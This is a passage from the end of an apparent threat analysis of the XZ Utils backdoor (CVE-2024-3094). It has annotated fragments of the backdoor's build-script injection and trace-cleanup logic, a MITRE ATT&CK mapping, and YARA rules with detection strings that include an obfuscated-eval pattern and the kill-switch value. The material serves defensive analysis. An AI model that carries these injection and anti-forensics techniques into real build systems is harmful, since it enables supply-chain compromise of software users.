                mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
                mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
            fi
```

- This is the `else` for the link failing. Restore from backups.

```
            rm -f .libs/liblzma_la-crc32-fast.o || true
            rm -f .libs/liblzma_la-crc64-fast.o || true
```

- Inner compiler success case. Delete backups.

```
        else
            mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
            mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
        fi
```

- This is the `else` for the crc32 compilation failing. Restore from backups.

```
    else
        mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
    fi
```

- This is the else for the crc64 compilation failing. Restore from backup.

```
    rm -f liblzma_la-crc64-fast.o || true
```

- End of the `Makefile` section of the script. Delete the backup.

```
fi
eval $DHLd
```

- Close the “elif we’re in a Makefile”, one more extension point/debug print, and we’re done! The script has injected the object file into the objects built during make, leaving no trace behind.

## **4. MITRE ATT&CK Metrics**

| Tactic         | T-ID  | Technique                         |
| -------------- | ----- | --------------------------------- |
| Reconnaissance | T1592 | Gather Victim Host Information    |
|                | T1591 | Gather Victim Org Information     |
|                | T1590 | Gather Victim Network Information |

| Resource
Development | T1650 | Acquire Access |
| Persistence | T1543 | Create or Modify System Process |
| | T1133 | External Remote Services |
| | T1574 | Hijack Execution Flow |
| | T1556 | Modify Authentication Process |
| Privilege
Escalation | T1543 | Create or Modify System Process |
| | T1055 | Process Injection |
| | T1574 | Hijack Execution Flow |
| Initial
Access | T1133 | External Remote Services |
| | T1195 | Supply Chain Compromise |
| | T1199 | Trusted Relationship |
| Execution | T1072 | Software Deployment Tools |
| | T1569 | System Services |
| Defense
Evasion | T1564 | Hide Artifacts |
| | T1140 | Deobfuscate/Decode Files or Information |
| | T1036 | Masquerading |
| | T1055 | Process Injection |
| | T1550 | Use Alternate Authentication Material |
| | T1480 | Execution Guardrails |
| | T1574 | Hijack Execution Flow |
| | T1027 | Obfuscated Files or Information |
| | T1553 | Subvert Trust Controls |
| | T1553.004 | Subvert Trust Controls: Install Root
Certificate |
| | T1656 | Impersonation |
| | T1556 | Modify Authentication Process |
| | T1127 | Trusted Developer Utilities Proxy Execution |
| Lateral
Movement | T1550 | Use Alternate Authentication Material |
| | T1021 | Remote Services |
| | T1072 | Software Deployment Tools |
| Credential
Access | T1556 | Modify Authentication Process |

[xz-utils-MITRE-ATTCK.json](xz-utils-MITRE-ATTCK.json)

## YARA

```python
rule BKDR_XZUtil_Script_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects make file and script contents used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4"
      date = "2024-03-30"
      score = 80
      hash = "d44d0425769fa2e0b6875e5ca25d45b251bbe98870c6b9bef34f7cea9f84c9c3"
      id = "6b62ffc2-d0a7-5810-97a3-c48f7fac300e"
   strings:
      $x1 = "/bad-3-corrupt_lzma2.xz | tr " ascii
      $x2 = "/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|" ascii
      $x3 = "eval $zrKcKQ" ascii
   condition:
      1 of them
}

rule BKDR_XZUtil_Binary_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects injected code used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4"
      date = "2024-03-30"
      score = 75
      hash1 = "319feb5a9cddd81955d915b5632b4a5f8f9080281fb46e2f6d69d53f693c23ae"
      hash2 = "605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4"
      hash3 = "8fa641c454c3e0f76de73b7cc3446096b9c8b9d33d406d38b8ac76090b0344fd"
      hash4 = "b418bfd34aa246b2e7b5cb5d263a640e5d080810f767370c4d2c24662a274963"
      hash5 = "cbeef92e67bf41ca9c015557d81f39adaba67ca9fb3574139754999030b83537"
      hash6 = "5448850cdc3a7ae41ff53b433c2adbd0ff492515012412ee63a40d2685db3049"
      id = "6ccdeb6d-67c4-5358-a76b-aef7f047c997"
   strings:
      $op1 = { 48 8d 7c 24 08 f3 ab 48 8d 44 24 08 48 89 d1 4c 89 c7 48 89 c2 e8 ?? ?? ?? ?? 89 c2 }
      $op2 = { 31 c0 49 89 ff b9 16 00 00 00 4d 89 c5 48 8d 7c 24 48 4d 89 ce f3 ab 48 8d 44 24 48 }
      $op3 = { 4d 8b 6c 24 08 45 8b 3c 24 4c 8b 63 10 89 85 78 f1 ff ff 31 c0 83 bd 78 f1 ff ff 00 f3 ab 79 07 }

      /* function signature from detect.sh provided by Vegard Nossum */
      $xc1 = { F3 0F 1E FA 55 48 89 F5 4C 89 CE 53 89 FB 81 E7 00 00 00 80 48 83 EC 28 48 89 54 24 18 48 89 4C 24 10 }
   condition:
      uint16(0) == 0x457f
      and (
         all of ($op*)
         or $xc1
      )
}

rule BKDR_XZUtil_KillSwitch_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects kill switch used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01?permalink_comment_id=5006558#gistcomment-5006558"
      date = "2024-03-30"
      score = 85
      id = "0d28bec4-1d3a-5af0-9e9e-49486fcc62e1"
   strings:
      $x1 = "yolAbejyiejuvnup=Evjtgvsh5okmkAvj"
   condition:
      $x1
}

rule SUSP_OBFUSC_SH_Indicators_Mar24_1 {
   meta:
      description = "Detects characteristics found in obfuscated script (used in the backdoored XZ package, but could match on others, too)"
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4/1"
      date = "2024-04-06"
      score = 60
      id = "f9fcc326-75d6-5a5a-a8b5-7de15a11448e"
   strings:
      $s1 = "eval $"
   condition:
      uint8(1) == 0x3d // an equal sign at byte 2 ; means that the variable is only 1 character long
      and $s1 in (filesize-20..filesize) // eval at the very end of the file
}
```

### **5. Reference**

- [**XZ Utils 백도어: 공급망 취약성(CVE-2024-3094)**](https://www.logpoint.com/en/blog/emerging-threats/xz-utils-backdoor/)
- https://github.com/Neo23x0/signature-base/blob/master/yara/bkdr_xz_util_cve_2024_3094.yar
